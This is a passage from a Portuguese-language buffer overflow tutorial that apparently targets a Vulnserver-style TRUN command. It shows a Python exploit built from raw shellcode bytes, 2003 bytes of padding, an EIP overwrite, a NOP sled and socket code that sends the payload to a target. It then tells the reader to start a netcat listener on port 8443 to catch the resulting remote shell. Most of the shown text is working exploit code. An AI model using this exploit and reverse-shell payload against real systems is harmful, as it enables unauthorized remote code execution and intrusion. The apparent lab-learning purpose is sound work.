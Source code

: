 ```python
shellcode += b"\xfb\x35\xcc\x83\x1f\xcb\x01\xb8\x24\x40\xa4"
shellcode += b"\x6e\xad\x12\x83\xaa\xf5\xc1\xaa\xeb\x53\xa7"
shellcode += b"\xd3\xeb\x3b\x18\x76\x60\xd1\x4d\x0b\x2b\xbe"
shellcode += b"\xa2\x26\xd3\x3e\xad\x31\xa0\x0c\x72\xea\x2e"
shellcode += b"\x3d\xfb\x34\xa9\x42\xd6\x81\x25\xbd\xd9\xf1"
shellcode += b"\x6c\x7a\x8d\xa1\x06\xab\xae\x29\xd6\x54\x7b"
shellcode += b"\xfd\x86\xfa\xd4\xbe\x76\xbb\x84\x56\x9c\x34"
shellcode += b"\xfa\x47\x9f\x9e\x93\xe2\x5a\x49\x5c\x5a\x65"
shellcode += b"\x85\x34\x99\x65\xb5\x3f\x14\x83\xdf\xaf\x71"
shellcode += b"\x1c\x48\x49\xd8\xd6\xe9\x96\xf6\x93\x2a\x1c"
shellcode += b"\xf5\x64\xe4\xd5\x70\x76\x91\x15\xcf\x24\x34"
shellcode += b"\x29\xe5\x40\xda\xb8\x62\x90\x95\xa0\x3c\xc7"
shellcode += b"\xf2\x17\x35\x8d\xee\x0e\xef\xb3\xf2\xd7\xc8"
shellcode += b"\x77\x29\x24\xd6\x76\xbc\x10\xfc\x68\x78\x98"
shellcode += b"\xb8\xdc\xd4\xcf\x16\x8a\x92\xb9\xd8\x64\x4d"
shellcode += b"\x15\xb3\xe0\x08\x55\x04\x76\x15\xb0\xf2\x96"
shellcode += b"\xa4\x6d\x43\xa9\x09\xfa\x43\xd2\x77\x9a\xac"
shellcode += b"\x09\x3c\xaa\xe6\x13\x15\x23\xaf\xc6\x27\x2e"
shellcode += b"\x50\x3d\x6b\x57\xd3\xb7\x14\xac\xcb\xb2\x11"
shellcode += b"\xe8\x4b\x2f\x68\x61\x3e\x4f\xdf\x82\x6b"


# payload a ser enviado
payload = b"TRUN /../" # funcao inicial
payload += b"A"*2003 # preenchimento do buffer
payload += b"\x03\x12\x50\x62" # sobrescreve EIP
payload += nop # sobrescreve ESP com os NOPs
payload += shellcode # envia nosso shellcode apos os NOPs

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # cria o socket
s.connect((ip,porta)) # conecta no alvo

s.send(payload + b"\r\n") # envia o payload

s.close() # fecha conexao
```

## OBTENDO ACESSO REMOTO

Com o exploit pronto, precisamos deixar um netcat ouvindo em nossa máquina atacante na mesma porta utilizada para gerar o shellcode, no meu caso a 8443.

![Immunity.](/img/std/winbof/winbof-15.png)
